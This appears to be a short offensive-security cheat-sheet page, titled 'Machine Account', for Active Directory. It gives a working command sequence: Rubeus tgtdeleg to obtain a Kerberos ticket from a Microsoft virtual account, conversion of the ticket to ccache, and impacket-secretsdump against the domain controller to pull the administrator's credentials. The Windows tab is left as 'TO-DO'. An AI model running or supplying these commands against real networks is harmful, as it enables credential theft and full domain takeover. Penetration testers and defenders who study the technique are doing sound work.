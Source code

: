 ```yaml
---
title: "Machine Account"
date: 2024-8-1
tags: ["machine account", "Microsoft virtual account", "active directory", "ad", "domain controller", "Windows", "rubeus", "kerberos"]
---
```


---
### Abuse #1: Microsoft virtual account

#### 1. Create a ticket from Microsoft virtual account

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```powershell
.\rubeus.exe tgtdeleg /nowrap /ptt
```

</div>

{{< /tabcontent >}}

#### 2. Secrets Dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 3. Convert kirbi to ccache

<div>

```bash
python3 rubeustoccache.py <BASE64_TICKET> secrets.kirbi secrets.ccache
```

</div>

#### 4. Secrets Dump

<div>

```bash
export KRB5CCNAME=secrets.ccache
```

```bash
sudo ntpdate -s <DC> && impacket-secretsdump -k -no-pass -just-dc-user administrator
```

</div>

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}
TO-DO
{{< /tabcontent >}}

<br>